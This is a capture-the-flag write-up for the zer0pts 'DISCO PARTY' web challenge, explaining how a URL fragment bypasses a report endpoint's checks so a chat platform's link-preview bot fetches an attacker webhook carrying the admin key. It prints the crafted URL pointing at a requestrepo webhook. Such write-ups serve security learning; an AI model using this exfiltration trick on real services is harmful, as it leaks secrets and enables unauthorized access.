









# DISCO PARTY

## Description

There's maybe nothing special in description. 🤔


## 💻 Explore the website



There are 3 buttons here. The first two buttons seem common, so let try the last one.

I am allowed to create an invitation and to report issues about invitation.



Each invitation has a unique id.

## 🧑‍💻 Processing:
**web/app.py:** This file contains server code. There are some endpoints:

- `/post/<string(length=16):id>`: I can get an invitation through this endpoint by supplying `id` (`len(id) == 16`). Besides, I can supply a `key` and make `is_admin` take value `True` to receive the flag. Maybe my target is `key` value.

- `/api/new`: This endpoint creates post. I POST `title`, `content` and server will generate `id` for that post. Posts will be saved in database (`id`, `title`, `content`).

- `api/delete`: Deletes a post if I had `id` and `key`.

- `/api/report`: This endpoint takes my reports (`url`, `reason`, `g-recaptcha-response`). There are a lot of check stages here. After all, `message` will be saved in database. Look at the message form: 
    ```py 
    message = f"URL: {url}?key={key}\nReason: {reason}"
    ```

Because there is bot directory, maybe I need to bypass check stages and make message contain my webhook like:
```py
f'URL: http://hjvnswkt.requestrepo.com?key={key}\nReason: something'
```
Or some messages similar. And the bot will click on the URL/send request and the key will be revealed. (In an ideal scenario) 🤤 

Let's check it out.


**bot/crawler.py:** 🤖

This bot is in a secret channel and will send/chat my message which is from `/api/report` endpoint.

There is no click here 😿.

I was stuck here for a very long time. 

Then I realized every big platforms like Discord have their own bots, and they click every URL in the conversation automatically. 

*Really? I don't believe, prove it.* 🤔 

As you wish: 🤓 

- Setup a webhook:


- Send a message which contains the webhook URL:


    

- And receive requests:


So, my plan is craft a message that contains `http://hjvnswkt.requestrepo.com/?key={key}` to get `key`.

**Bypass:**

```py
# Check URL
parsed = urllib.parse.urlparse(url.split('?', 1)[0])
if len(parsed.query) != 0:
    return flask.jsonify({"result": "NG", "message": "Query string is not allowed"})
if f'{parsed.scheme}://{parsed.netloc}/' != flask.request.url_root:
    return flask.jsonify({"result": "NG", "message": "Invalid host"})

# Parse path
adapter = app.url_map.bind(flask.request.host)
endpoint, args = adapter.match(parsed.path)
if endpoint != "get_post" or "id" not in args:
    return flask.jsonify({"result": "NG", "message": "Invalid endpoint"})

# Check ID
if not get_redis_conn(DB_TICKET).exists(args["id"]):
    return flask.jsonify({"result": "NG", "message": "Invalid ID"})
```

The first part makes sure my host (input `url`) is equal to server host.

The second part checks path of my URL which have to have `/post/<string(length=16):id>` form and there is `id` in request.

The last part takes `id` undercontrol (exists in database).

I think about a way. I use fragment to craft because none of three parts above do anything with fragment. This is my URL: `http://party.ctf.zer0pts.com:8007/post/UCs0yCK4AJwgyQnX# http://hjvnswkt.requestrepo.com`.

The space after `#` is necessary.


I just send report with that URL. Get key in requestrepo.


And get the flag.


**🚩Flag: `zer0pts
{4h_p4rad1s3_l05t_6b4f6fbf5ee51003}`**

## 🤓 Notes:
There are some features I can abuse (Discord, Facebook, ... bot).
